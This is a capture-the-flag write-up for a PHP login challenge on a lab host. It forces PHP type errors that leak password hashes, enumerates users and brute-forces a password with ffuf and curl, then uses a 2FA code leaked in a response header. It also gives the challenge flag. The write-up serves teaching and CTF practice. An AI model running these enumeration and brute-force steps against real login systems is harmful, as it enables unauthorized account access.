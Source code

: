 # Visiting the site

The site has a basic login page, sending the form to `login.php`.

![](screenshots/1.png)

# Dirbuster

Dirbuster finds a few other pages as well, but they are not producing output or redirecting back to login.

```
---- Scanning URL: http://10.10.100.181:36528/ ----
+ http://10.10.100.181:36528/config.php (CODE:200|SIZE:0)
+ http://10.10.100.181:36528/index.php (CODE:200|SIZE:578)
+ http://10.10.100.181:36528/login.php (CODE:200|SIZE:50)
+ http://10.10.100.181:36528/logout.php (CODE:302|SIZE:0)
+ http://10.10.100.181:36528/main.php (CODE:302|SIZE:0)
+ http://10.10.100.181:36528/profile.php (CODE:302|SIZE:0)
```

# Users

The server is running PHP, passing the username parameter as arrays producing some error output.

```bash
curl -X POST "http://10.10.100.111:36528/login.php" --data-urlencode 'username[]=a' --data-urlencode 'password=b'
```

```
<br />
<b>Warning</b>:  Array to string conversion in <b>/var/www/html/login.php</b> on line <b>11</b><br />
Incorrect username and/or password!
```

Building a [wordlist](https://github.com/danielmiessler/SecLists/tree/master/Usernames) from male and female names, converting them lowercase, then fuzzing the auth endpoint with it and doing the same on the password side 

```bash
cat wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt wordlists/seclists/Usernames/Names/femalenames-usa-top1000.txt | tr A-Z a-z  > names.txt
ffuf -fr "Incorrect username and/or password!" -u http://10.10.100.111:36528/login.php -X POST -d "username=FUZZ&password[]=" -H "Content-Type: application/x-www-form-urlencoded" -w names.txt
```

![](screenshots/2.png)

# Passwords

The login is waiting a few seconds and then printing some errors again.

```bash
(while IFS= read -r line; do echo "-----" $line "----"; curl -s -v -X POST "http://10.10.100.111:36528/login.php" --data-urlencode "username=$line" --data-urlencode "password[]="; done < users.txt) > users_dump.txt
```

```
----- david ----
<br />
<b>Fatal error</b>:  Uncaught TypeError: password_verify(): Argument #1 ($password) must be of type string, array given in /var/www/html/login.php:18
Stack trace:
#0 /var/www/html/login.php(18): password_verify(Array, '$2y$10$wzozKE16...')
#1 {main}
  thrown in <b>/var/www/html/login.php</b> on line <b>18</b><br />
```

There are 2 (3) types of entries.
- `david` has a proper `bcrypt` hash: `password_verify(Array, '$2y$10$wzozKE16...')`
- everyone else has an invalid hash: `password_verify(Array, 'password6H]HzRL...')`, just different number inside
- `maria` has a slightly different but still invalid hash: `password_verify(Array, 'H]HzRL()LPN53:1...')`

This suggests that only `david` can actually login. The `password_verify` function returns false for invalid hash.

Fuzzing the password now is possible, starting with a small list, because of the delay.

```bash
ffuf -fr "Incorrect username and/or password!" -u http://10.10.100.111:36528/login.php -X POST -d "username=david&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -w wordlists/seclists/Passwords/xato-net-10-million-passwords-10.txt
```

![](screenshots/3.png)


The credentials are `david:dragon`.

# 2FA

Logging in with the credentials is redirecting to `login2.php` and is asking a 2FA code now.

![](screenshots/4.png)

The code is leaked in the headers. `X-TWO-FACTOR-AUTHENTICATION: 330139`

![](screenshots/5.png)

Which we can use to log in.

![](screenshots/6.png)

And the flag is under the profile.

![](screenshots/7.png)

# Flag
`CQ25{I_R34LLy_l1k3_pL4y1ng_w1th_d3l4y}`

# Remarks
The challenge can be solved just paying attention to the timings and enumerating more, but coercing some errors was shorter and easier for me.

The description should not mention `No need to brute-force`, as you clearly need to enumerate a lot of things.